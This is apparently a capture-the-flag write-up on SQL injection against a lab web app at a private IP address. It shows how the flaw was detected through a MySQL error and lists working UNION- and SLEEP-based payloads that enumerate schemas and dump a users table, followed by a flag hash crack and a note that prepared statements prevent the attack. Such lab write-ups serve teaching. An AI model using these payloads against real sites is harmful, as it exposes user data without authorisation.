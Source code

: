 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
> 1  AND 1 = SLEEP(2);--
> 1 UNION (SELECT 1,2 FROM dual );--
> 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
> 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

    ### One of these tables is users
    Table : users
    Colunm : user_id
    Colunm : first_name
    Colunm : last_name
    Colunm : town
    Colunm : country
    Colunm : planet
    Colunm : Commentaire
    Colunm : countersign
 * And through a number of these commands we are able to retrieve out flag   
    ### Retrive flag
    > 1 UNION (SELECT user_id, first_name FROM users);--
    > 1 UNION (SELECT last_name, town FROM users);--
    > 1 UNION (SELECT country, planet FROM users);--
    > 1 UNION (SELECT Commentaire, countersign FROM users);--


{
    instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
    hash : 5ff9d0165b4f92b14994e5c685cdce28
}

flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo  -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
    https://www.youtube.com/watch?v=ciNHn38EyRc